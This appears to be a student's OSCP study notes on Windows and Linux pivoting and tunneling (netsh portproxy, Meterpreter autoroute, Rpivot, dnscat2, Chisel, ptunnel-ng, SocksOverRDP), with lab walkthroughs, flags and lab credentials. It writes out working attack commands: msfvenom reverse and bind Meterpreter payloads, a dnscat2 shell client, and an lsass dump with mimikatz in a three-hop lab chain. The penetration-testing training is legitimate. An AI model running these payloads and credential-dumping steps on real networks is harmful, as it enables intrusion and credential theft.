> 🎬 **[ippsec.rocks: "plink"](https://ippsec.rocks/?#plink)** -- boxes using Plink for Windows-side port forwarding

#### Tags: #Plink #PuTTY #Windows #PortForwarding #RDP #Module19

---

### 19.4.3 Netsh (Network Shell)

Windows's built-in firewall configuration tool. The `interface portproxy` subcontext creates port forwards natively -- no uploaded tools needed. Requires administrator privileges.

**Setup:**
```cmd
REM Create a port forward (v4tov4 = IPv4 to IPv4)
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215

REM Confirm it's set up
netsh interface portproxy show all

REM Confirm the port is listening (Netstat)
netstat -anp TCP | find "2222"
```

**Windows Firewall will BLOCK the new port by default.** Must add an allow rule:
```cmd
REM Open a hole in Windows Firewall for the new port
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
```

**From Kali:** SSH to MULTISERVER03:2222 as if it were PGDATABASE01:22:
```bash
ssh database_admin@192.168.50.64 -p2222
```

**Cleanup (important -- remove your artifacts):**
```cmd
REM Delete the firewall rule (use the exact name you gave it)
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"

REM Delete the port forward
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```

> ⚠️ Always clean up Netsh firewall rules and portproxy entries. They persist across reboots and are easy to forget.

> 🔍 Worth remembering generally: PowerShell equivalents exist for firewall rules (`New-NetFirewallRule`, `Disable-NetFirewallRule`) but the `netsh interface portproxy` command has no PowerShell equivalent. Netsh stays relevant here.

> 📸 Screenshot: `netsh interface portproxy add v4tov4 ...` command and `netsh interface portproxy show all` output, then ssh from Kali working

> 🚩 Hands-on: 19.4.3 Lab Q1 (VM Group 1). ✅ Done. Flag: `OS{ffbd1af590b0ad2ae91072d39a7e259a}`. RDP directly accessible. Netsh: `netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.236.64 connectport=22 connectaddress=10.4.236.215` + firewall rule. SSH: `ssh database_admin@192.168.236.64 -p2222`. Cleanup: delete firewall rule and portproxy after.

> 🚩 Hands-on: 19.4.3 Lab Q2 (Capstone). ✅ Done. Flag: `OS{52a5bc645cd11fddec8265471efcd7ab}`. Netsh: `portproxy add v4tov4 listenport=4545 listenaddress=192.168.236.64 connectport=4545 connectaddress=10.4.236.215` + firewall rule. Client: `/tmp/netsh_exercise_client -i 192.168.236.64 -p 4545`.

> 🎬 **[ippsec.rocks: "netsh"](https://ippsec.rocks/?#netsh)** -- boxes using Netsh portproxy for Windows-native port forwarding

#### Tags: #Netsh #portproxy #WindowsFirewall #PortForwarding #Module19

---

## 19.5 Advanced Tunneling Techniques

When direct port forwarding or SSH tunneling isn't available (no SSH on pivot, DPI filtering TCP/SSH, need multi-hop proxy), these tools extend the toolkit.

> 💡 **When to use each:**
> - **Meterpreter autoroute + SOCKS** -- already have a Meterpreter session, need to proxy through it
> - **Rpivot** -- pivot can only outbound-connect (corporate NAT, no inbound ports)
> - **Dnscat2** -- TCP/UDP blocked but DNS egress is open
> - **Chisel (server-on-pivot)** -- flexible HTTP-tunneled SOCKS, no SSH needed
> - **ptunnel-ng** -- ICMP is the only allowed traffic
> - **SocksOverRDP** -- Windows pivot reachable via RDP, can't run extra listeners

---

### 19.5.1 Meterpreter Autoroute + SOCKS Proxy

Adds a route inside a Meterpreter session so MSF modules AND external tools (via proxychains) can reach the internal network.

**Scenario:** Kali has a Meterpreter session on pivot (172.16.5.129). Internal target at 172.16.5.19.

**Step 1 -- Discover live hosts through the pivot (ping sweep):**

> 🖥️ **Run in Meterpreter shell:**
```bash
for i in {1..254}; do (ping -c 1 172.16.5.$i | grep "bytes from" &); done
```

> ✅ **Expected:** Lines like `64 bytes from 172.16.5.19:` identify live hosts.

**Step 2 -- Add the autoroute:**

> 🖥️ **Run in MSF console:**
```
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```

> ✅ **Expected:** `[+] Route added to subnet 172.16.5.0/24 via session 1`

**Step 3 -- Start the SOCKS proxy:**

> 🖥️ **Run in MSF console:**
```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > set VERSION 4a
msf6 auxiliary(server/socks_proxy) > run -j
```

> ✅ **Expected:** `[*] Auxiliary module running as background job`

**Step 4 -- Configure proxychains and scan:**

> 📝 `/etc/proxychains4.conf` must end with:
```
socks4  127.0.0.1  9050
```

> 🖥️ **Run on Kali:**
```bash
proxychains nmap 172.16.5.19 -p3389,22,445 -sT -sV --open 2>/dev/null
```

> ✅ **Expected:** Nmap results for internal host, routed through the Meterpreter tunnel.

> ⚠️ **VERSION 4a** supports DNS resolution through the proxy. `VERSION 5` requires auth config. `VERSION 4` (plain) does not support hostnames.

#### Tags: #Meterpreter #autoroute #SOCKS #Proxychains #MSF #Module19

---

### 19.5.2 Socat + Meterpreter Bind-TCP Chain

Use Socat on the pivot to relay a Meterpreter `bind_tcp` payload when Kali can't receive inbound connections but can reach the pivot.

**Step 1 -- Generate bind_tcp payload for the inner host:**

> 🖥️ **Run on Kali:**
```bash
msfvenom -p windows/x64/meterpreter/bind_tcp LHOST=0.0.0.0 LPORT=8443 -f exe -o backupscript.exe
```

**Step 2 -- Transfer and execute the payload on the inner host (via pivot access).**

**Step 3 -- Set up Socat relay on the pivot:**

> 🖥️ **Run on pivot:**
```bash
socat TCP-LISTEN:8080,fork TCP:172.16.5.19:8443
```

**Step 4 -- Connect via MSF handler through the relay:**

> 🖥️ **Run in MSF console:**
```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST <pivot_ip>
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > run
```

> ✅ **Expected:** Meterpreter session from the inner host, routed through the Socat relay on the pivot.

#### Tags: #Socat #Meterpreter #BindTCP #relay #Module19

---

### 19.5.3 Rpivot -- Reverse SOCKS Proxy

Rpivot is a Python 2 client/server tool. The **client runs on the pivot** and connects back to the **server on Kali** -- no inbound ports needed on the pivot.

**Step 1 -- Start the Rpivot server on Kali:**

> 🖥️ **Run on Kali:**
```bash
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

**Step 2 -- Transfer `client.py` to the pivot, then connect back:**

> 🖥️ **Run on pivot:**
```bash
python2.7 client.py --server-ip <kali_ip> --server-port 9999
```

> ✅ **Expected:** `Connection successful` on the server. SOCKS4 proxy listening on Kali `127.0.0.1:9050`.

**Step 3 -- Proxy through it:**

```bash
proxychains nmap 172.16.5.19 -p445,3389 -sT --open 2>/dev/null
```

> 💡 **Corporate NTLM proxy variant** (when the pivot is behind an authenticating HTTP proxy):
```bash
python2.7 client.py --server-ip <kali_ip> --server-port 9999 \
  --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 \
  --domain CORP --username user --password pass
```

> ⚠️ **Rpivot requires Python 2.7** on the pivot. Python 3-only pivots: use Chisel (19.5.5) instead.

#### Tags: #Rpivot #ReverseSocks #Python #SOCKS #Module19

---

### 19.5.4 Dnscat2 -- DNS Tunneling

When TCP/UDP egress is blocked but DNS queries reach the internet, **Dnscat2** tunnels all traffic inside DNS requests to a server you control.

> ⚠️ **Prerequisite:** In real engagements, own a domain and point its NS record to Kali. In labs, `--no-cache` skips the full DNS requirement.

**Step 1 -- Start the Dnscat2 server on Kali:**

> 🖥️ **Run on Kali:**
```bash
sudo ruby dnscat2.rb --dns host=<kali_ip>,port=53,domain=inlanefreight.local --no-cache
```

> ✅ **Expected:** Server prints a pre-shared secret. Copy it.

**Step 2 -- Run the PowerShell client on the Windows pivot:**

> 🖥️ **Run on pivot (PowerShell):**
```powershell
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSServer <kali_ip> -Domain inlanefreight.local -PreSharedSecret <secret> -Exec cmd
```

> ✅ **Expected:** Server shows `New window created: 1`.

**Step 3 -- Port forward inside the Dnscat2 session:**

> 🖥️ **Run in Dnscat2 server console:**
```
dnscat2> window -i 1
command (client) 1> listen 127.0.0.1:8080 172.16.5.19:8080
```

> ✅ **Expected:** Traffic sent to `127.0.0.1:8080` on Kali is tunneled (via DNS) to `172.16.5.19:8080`.

> 💡 **DNS tunneling is slow** -- use only when TCP/UDP are truly blocked. Expect noticeable lag on interactive sessions.

#### Tags: #Dnscat2 #DNSTunneling #DPI #Module19

---

### 19.5.5 Chisel -- Server-on-Pivot Mode

Chisel runs HTTP-tunneled SOCKS without SSH. In **server-on-pivot** mode the Chisel server listens on the pivot and Kali connects as a client -- used when Kali can reach the pivot on a port directly.

> 💡 **Chisel modes:**
> - **Kali server + pivot client** (outbound from pivot, firewall-friendly) -- see [[Chisel]]
> - **Pivot server + Kali client** (this section) -- use when you have inbound access to the pivot port

**Step 1 -- Upload Chisel to pivot and start server:**

> 🖥️ **Run on pivot:**
```bash
./chisel server -v -p 9001 --socks5
```

> ✅ **Expected:** `Listening on 0.0.0.0:9001`

**Step 2 -- Connect from Kali:**

> 🖥️ **Run on Kali:**
```bash
./chisel client -v <pivot_ip>:9001 socks
```

> ✅ **Expected:** `Connected (Latency ...)` -- SOCKS5 listener on `127.0.0.1:1080`.

**Step 3 -- Configure proxychains:**

> 📝 `/etc/proxychains4.conf`:
```
socks5  127.0.0.1  1080
```

> ⚠️ **The pivot server port (9001) must be reachable from Kali.** If a firewall blocks inbound to the pivot, use the reverse pattern (pivot as client connecting out to a Kali-hosted server).

#### Tags: #Chisel #SOCKS5 #HTTPtunnel #Pivoting #Module19

---

### 19.5.6 ptunnel-ng -- ICMP Tunneling

**ptunnel-ng** encapsulates TCP inside ICMP echo/reply packets. Use when ICMP is allowed through DPI but TCP/UDP is blocked.

**Prerequisite:** Compile or download static ptunnel-ng binary for both Kali and the pivot.

**Step 1 -- Start ptunnel-ng server on the pivot (as root):**

> 🖥️ **Run on pivot:**
```bash
sudo ./ptunnel-ng -r <pivot_ip> -R22
```

`-r <pivot_ip>` = relay host (itself); `-R22` = forward to local SSH port 22.

**Step 2 -- Start ptunnel-ng client on Kali (as root):**

> 🖥️ **Run on Kali:**
```bash
sudo ./ptunnel-ng -p <pivot_ip> -l2222 -r <pivot_ip> -R22
```

`-p` = proxy (the ICMP endpoint); `-l2222` = local listening port on Kali.

> ✅ **Expected:** ICMP tunnel established. `127.0.0.1:2222` on Kali connects to pivot SSH.

**Step 3 -- SSH through the ICMP tunnel (and optionally add SOCKS):**

> 🖥️ **Run on Kali:**
```bash
ssh -D 9050 -p2222 -l ubuntu 127.0.0.1
```

> ✅ **Expected:** SSH session over ICMP. SOCKS proxy at `127.0.0.1:9050` ready for proxychains.

> ⚠️ **Requires raw socket access** (root) on both ends. Generates ICMP traffic that may alert a vigilant SOC -- use only when necessary.

#### Tags: #ptunnel #ICMP #DPI #SSHTunneling #Module19

---

### 19.5.7 SocksOverRDP + Proxifier

**SocksOverRDP** tunnels a SOCKS proxy through an RDP session. Useful on Windows environments where you can RDP to the pivot but can't bind extra network ports freely.

**Requirement:** `SocksOverRDP-Plugin.dll` + `SocksOverRDP-Server.exe` (GitHub: nccgroup/SocksOverRDP).

**Step 1 -- Register the plugin DLL on the RDP client (your jump host or Kali):**

> 🖥️ **Run on RDP client:**
```
regsvr32.exe SocksOverRDP-Plugin.dll
```

**Step 2 -- Connect to the pivot via `mstsc.exe` (RDP).**

**Step 3 -- Run the server on the pivot inside the RDP session:**

> 🖥️ **Run on pivot (inside RDP):**
```
SocksOverRDP-Server.exe
```

> ✅ **Expected:** SOCKS5 listener appears on the RDP client at `127.0.0.1:1080`.

**Step 4 -- Configure Proxifier on the RDP client:**

- Proxy: `127.0.0.1:1080`, type SOCKS5
- Routing rule: target subnet (e.g., `172.16.5.0/24`) via proxy

> ✅ **Expected:** Any Windows application on the RDP client can now reach the internal network through the pivot's RDP channel. No proxychains needed -- Proxifier hooks at the socket layer.

#### Tags: #SocksOverRDP #Proxifier #Windows #RDP #SOCKS #Module19

---

## 19.6 Skills Assessment -- Three-Hop Pivot Chain

A combined scenario covering webshell access, SSH key pivoting, Meterpreter autoroute, RDP, credential dumping, and lateral movement to a DC.

**Network topology:**



**Chain walkthrough:**

**Hop 1 -- Webshell to SSH key:**
- Identify the webshell on the exposed host
- Enumerate and retrieve `id_rsa` via webshell
- Credentials found: `mlefay:Plain Human work!`

> 🖥️ **Run on Kali:**
```bash
ssh -i id_rsa mlefay@<pivot1_ip>
```

> ✅ Flag: `N1c3Piv0t`

**Hop 2 -- Meterpreter pivot to internal Windows host:**

> 🖥️ **MSF autoroute + SOCKS (see 19.5.1):**
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<kali_ip> LPORT=8080 -f elf > shell.elf
# transfer and execute on pivot2
# in MSF:
use post/multi/manage/autoroute; set SESSION 1; set SUBNET 172.16.6.0; run
use auxiliary/server/socks_proxy; set VERSION 4a; set SRVPORT 9050; run -j
```

> 🖥️ **RDP to internal host via proxychains:**
```bash
proxychains xfreerdp /v:172.16.6.x /u:mlefay /p:'Plain Human work!' /cert-ignore
```

> ✅ Flag: `S1ngl3-Piv07-3@sy-Day`

**Hop 3 -- Dump lsass and move to DC:**

> 🖥️ **On the RDP'd Windows host -- dump lsass:**
```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
# then on Kali:
mimikatz# sekurlsa::minidump lsass.dmp
mimikatz# sekurlsa::logonpasswords
```

> Credentials found: `vfrank:Imply wet Unmasked!`

> 🖥️ **Lateral move to DC:**
```bash
proxychains xfreerdp /v:172.16.6.25 /u:vfrank /p:'Imply wet Unmasked!' /cert-ignore
```

> Navigate to the Z: share for the final flag.

**All skills assessment flags:**

| Question | Flag |
|---|---|
| Q1 | `N1c3Piv0t` |
| Q2 | `S1ngl3-Piv07-3@sy-Day` |
| Q3 | `N3tw0rk-H0pp1ng-f0R-FuN` |
| Q4 | `3nd-0xf-Th3-R@inbow!` |
| Q5 | `I_L0v3_Pr0xy_Ch@ins` |
| Q6 | `AC@tinth3Tunnel` |
| Q7 | `Th3$eTunne1$@rent8oring!` |
| Q8 | `N3Tw0rkTunnelV1sion!` |
| Q9 | `H0pping@roundwithRDP!` |

#### Tags: #SkillsAssessment #Pivoting #Meterpreter #Mimikatz #xfreerdp #Module19

---

## 19.7 Wrapping Up

Summary decision flowchart for choosing the right technique:



**Quick technique reference:**

| Technique | Where listening port is | Who initiates SSH | Firewall bypass | Multiple destinations |
|---|---|---|---|---|
| Socat port forward | Pivot host | N/A (no SSH) | No | No |
| SSH local (`-L`) | SSH client (pivot) | SSH client → SSH server | No | No |
| SSH dynamic (`-D`) | SSH client (pivot) | SSH client → SSH server | No | Yes (SOCKS) |
| SSH remote (`-R`) | SSH server (Kali) | SSH client → Kali | Yes | No |
| SSH remote dynamic | SSH server (Kali) | SSH client → Kali | Yes | Yes (SOCKS) |
| sshuttle | N/A (kernel routing) | SSH client (Kali) → SSH server | No | Yes (subnet) |
| ssh.exe | SSH server (Kali) | Windows SSH client → Kali | Yes | Yes (SOCKS) |
| Plink | SSH server (Kali) | Windows Plink → Kali | Yes | No |
| Netsh portproxy | Windows pivot | N/A (no SSH) | Add firewall rule | No |
| Meterpreter autoroute | Meterpreter session | N/A | Yes | Yes (SOCKS via proxychains) |
| Rpivot | Kali (SOCKS server) | Pivot client → Kali | Yes | Yes (SOCKS4) |
| Dnscat2 | Kali (DNS server) | DNS queries from pivot | Yes (DNS) | Limited (port-forward) |
| Chisel (server-on-pivot) | Pivot | Kali → Pivot | No | Yes (SOCKS5) |
| ptunnel-ng | ICMP relay (Kali) | ICMP both directions | Yes (ICMP) | Yes (via SSH -D) |
| SocksOverRDP | RDP client | RDP protocol | Yes (RDP) | Yes (Proxifier) |

> 🔗 **Chisel** for more advanced pivoting (HTTP-tunneled SOCKS, no SSH required): [[Chisel]]
> 🔗 **Ligolo-ng** for TUN-interface-based tunneling (no proxychains needed): [[Ligolo-ng]]
> 🔗 **PayloadsAllTheThings -- Tunneling and Port Forwarding (GitHub):** [github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md)
> 🔗 **HackTricks -- Tunneling and Port Forwarding (GitHub):** [github.com/HackTricks-wiki/hacktricks/blob/master/generic-methodologies-and-resources/tunneling-and-port-forwarding.md](https://github.com/HackTricks-wiki/hacktricks/blob/master/generic-methodologies-and-resources/tunneling-and-port-forwarding.md)

> 🎬 **[ippsec.rocks: "port forward"](https://ippsec.rocks/?#port%20forward)** -- boxes using SSH tunneling or Socat to pivot
> 🎬 **[ippsec.rocks: "proxychains"](https://ippsec.rocks/?#proxychains)** -- boxes using proxychains + SOCKS for multi-hop pivoting
> 🎬 **[ippsec.rocks: "sshuttle"](https://ippsec.rocks/?#sshuttle)** -- boxes using sshuttle VPN-like approach

#### Tags: #PortForwarding #SSHTunneling #Pivoting #sshuttle #Netsh #Plink #Module19

---

## 🎯 Related Boxes to Practice

**Technique-genuine boxes (core pivoting from this module):**
- **HTB Bastard** -- multi-hop pivoting scenario, Confluence-style web app exploitation to foothold
- **HTB Conceal** -- SNMP enumeration to find IPSec VPN config, pivot into internal network
- **HTB Reddish** -- multi-hop Redis/Node.js chain, SSH tunneling required for each layer
- **HTB Inception** -- multi-layer pivot (HTTP SSRF → LFI → internal host), sshuttle useful

**Adjacent-workflow boxes (credential reuse + lateral movement pattern):**
- **HTB Active** (done) -- credential found via GPP, Kerberoasting from pivot perspective
- **HTB Bounty** (done) -- single-hop but internal service enumeration mindset applies

**Search guidance:**
- `ippsec.rocks` -- search "tunnel", "port forward", "pivoting", "proxychains"
- TJNull's OSCP prep list -- "pivoting" category boxes

#### Tags: #RelatedBoxes #Pivoting #SSHTunneling #Module19

---

## Lab-Discovered Gotchas (Module 19)

Cross-cutting patterns that came up across multiple lab VMs:

**1. PTY upgrade before SSH from a non-interactive shell**
Any time you need to SSH somewhere FROM a reverse shell (to set up a port forward), the password prompt can't be answered unless you first upgrade to a PTY:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Then add `-o StrictHostKeyChecking=no` because the shell user often can't write to `~/.ssh/known_hosts`.

**2. Port conflicts with remote port forwarding**
If your nc listener is on port 4444 and you try `ssh -N -R 127.0.0.1:4444:...`, SSH fails with "remote port forwarding failed for listen port 4444". Pick any other free port (5555, etc.) and adjust the client command to match.

**3. Proxychains sed pattern drift**
The proxychains4.conf ProxyList line changes format between labs. A sed pattern targeting `socks4` won't match if the line is already `socks5`. Always `sudo tail -3 /etc/proxychains4.conf` after running sed to confirm it actually changed.

**4. cwd_user column names differ from module text**
The module shows `select * from cwd_user` with a `user_password` column. The actual VMs use `user_name` (not `username`) and `credential` (not `user_password`). Run `\d cwd_user` first if stuck.

**5. MULTISERVER03 Plink lab is pre-compromised**
The Plink lab (19.4.2) says "no credentials available" for MULTISERVER03 but there's a pre-planted web shell at `/umbraco/forms.aspx`. Don't waste time trying to guess Umbraco admin credentials. The web shell accepts arbitrary Windows commands directly.

**6. Socat and sshpass may not be installed on pivot hosts**
Just because Socat worked in the 19.2.3 lab doesn't mean it's on every VM. The 19.3.x labs deliberately exclude it to force SSH tunneling. Check with `which socat` before assuming it's available.

---

## **Outstanding Sections**

- [x] **19.1 Why Port Redirection and Tunneling:** done (flat vs segmented networks, firewalls, DPI, port redirection vs tunneling definitions)
- [x] **19.2.1 Simple Port Forwarding Scenario:** done (network layout, WAN/DMZ/PGDATABASE01 diagram)
- [x] **19.2.2 Setting Up the Lab Environment:** done (CVE-2022-26134 OGNL injection exploit, confluence.cfg.xml creds)
- [x] **19.2.3 Port Forwarding with Socat:** done (socat -ddd fork syntax, psql through forward, hashcat -m 12001, socat alternatives; quiz: sqlpass123)
- [x] **19.3.1 SSH Local Port Forwarding:** done (-L syntax, listening on SSH client, smbclient through forward, nc subnet sweep)
- [x] **19.3.2 SSH Dynamic Port Forwarding:** done (-D syntax, SOCKS proxy, proxychains config, nmap -sT through proxychains)
- [x] **19.3.3 SSH Remote Port Forwarding:** done (-R syntax, listening on Kali SSH server, psql through remote forward, start SSH server on Kali)
- [x] **19.3.4 SSH Remote Dynamic Port Forwarding:** done (-R PORT only syntax, OpenSSH 7.6+ requirement, SOCKS on Kali, proxychains nmap)
- [x] **19.3.5 Using sshuttle:** done (sshuttle -r syntax, root + Python3 requirements, transparent routing; quiz: True)
- [x] **19.4.1 ssh.exe:** done (Windows OpenSSH location, version check, identical syntax to Linux)
- [x] **19.4.2 Plink:** done (download from Kali Apache, -l/-pw flags, echo y pipe trick for non-TTY, no remote dynamic support)
- [x] **19.4.3 Netsh:** done (portproxy add v4tov4, advfirewall rule, cleanup steps)
- [x] **19.5.1 Meterpreter Autoroute + SOCKS Proxy:** done (autoroute post module, socks_proxy VERSION 4a, proxychains, ping sweep)
- [x] **19.5.2 Socat + Meterpreter Bind-TCP Chain:** done (bind_tcp payload, Socat TCP relay, MSF handler via pivot)
- [x] **19.5.3 Rpivot:** done (server on Kali, client on pivot, NTLM proxy variant)
- [x] **19.5.4 Dnscat2:** done (ruby server, PowerShell client, listen port-forward inside session)
- [x] **19.5.5 Chisel server-on-pivot:** done (server on pivot, client on Kali, SOCKS5 on 1080)
- [x] **19.5.6 ptunnel-ng:** done (server on pivot, client on Kali, SSH -D through ICMP tunnel)
- [x] **19.5.7 SocksOverRDP + Proxifier:** done (regsvr32 plugin, mstsc, server.exe, Proxifier rule)
- [x] **19.6 Skills Assessment:** done (3-hop chain: webshell → SSH id_rsa → Meterpreter pivot → RDP → lsass dump → DC; all 9 flags)
- [x] **19.7 Wrapping Up:** done (decision flowchart, extended quick reference table with all 15 techniques, related boxes, external resources)

**Module 19 FULLY COMPLETE as of 2026-08-23 (HTB supplementary merged).**
- All theory sections done
- All hands-on labs done (10 Offsec flags + 9 HTB skills assessment flags collected)
- Advanced techniques added: Meterpreter autoroute, Rpivot, Dnscat2, Chisel server-on-pivot, ptunnel-ng, SocksOverRDP
- Solo enrichment pass done (lab gotchas section, inline ippsec.rocks links per technique, PTY/proxychains/port conflict notes added)
- Hub-doc sync pending

**All flags:**
- 19.2.3 Q1: `sqlpass123` (database_admin cracked from Confluence DB)
- 19.2.3 Q2: `OS{6ca411cfc2c19a6bedc7b5d5548e7cbe}`
- 19.3.1 Q1: `OS{2ad5ef9c95076adb188301031ce7fcf1}`
- 19.3.1 Q2: `OS{91b5b64cd32cf97b4852acc352664bb7}`
- 19.3.2 Q1: port **4872**
- 19.3.2 Q2: `OS{7bcede8f0e1df0a8b346322ec4ed51eb}`
- 19.3.3 Q1: `OS{ed232de497d7a15aeac2a4fefc642596}`
- 19.3.3 Q2: `OS{76c630258afb82f315b1ba3bd777d9a9}`
- 19.3.4 Q1: port **9062**
- 19.3.4 Q2: `OS{eddb50b6f8e0eb5041a5124933494215}`
- 19.3.5 Q1: **True** (pure recall)
- 19.4.1 Q1: `OS{c448a418224da098419a5e55f4284048}`
- 19.4.2 Q1: `OS{eac23c748237a2e2f3d29bcb6439a982}`
- 19.4.3 Q1: `OS{ffbd1af590b0ad2ae91072d39a7e259a}`
- 19.4.3 Q2: `OS{52a5bc645cd11fddec8265471efcd7ab}`
## External Resources

- [HackTricks - Pentesting Index](https://hacktricks.wiki/en/index.html)
- [PayloadsAllTheThings - Methodology and Resources](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)
- [GTFOBins](https://gtfobins.github.io/) for Unix binary abuse where applicable
- [RevShells](https://www.revshells.com/) for shell payloads where applicable
- [CyberChef](https://gchq.github.io/CyberChef/) for encoding and decoding
- [ippsec.rocks](https://ippsec.rocks/) for practical walkthrough searches
## RUNBOOK V2 Stages

- [[RUNBOOK V2/Start Here]]
- [[RUNBOOK V2/Port Triage]]
- [[RUNBOOK V2/Linux - Service Scan]]

## Hub Docs

- [[METHODOLOGY CHEAT SHEET/METHODOLOGY CHEAT SHEET]]
- [[COMMAND APPENDIX/COMMAND APPENDIX]]
- [[DECISION TREE/DECISION TREE]]
- [[COMMAND BREAKDOWNS/COMMAND BREAKDOWNS]]

## Related Boxes

- [[OSCP/BOXES/WRITE UPS/Linux/clamAV|clamAV]] -- reconnaissance and exploit workflow
- [[OSCP/BOXES/WRITE UPS/AD/Forest|Forest]] -- enumeration and privilege escalation
- [[OSCP/BOXES/WRITE UPS/Windows/Buff|Buff]] -- Chisel reverse mapping of a Windows loopback-only CloudMe service
## Why this matters for OSCP

This page matters because it turns a repeatable assessment task into a clear, reviewable habit for the OSCP exam.
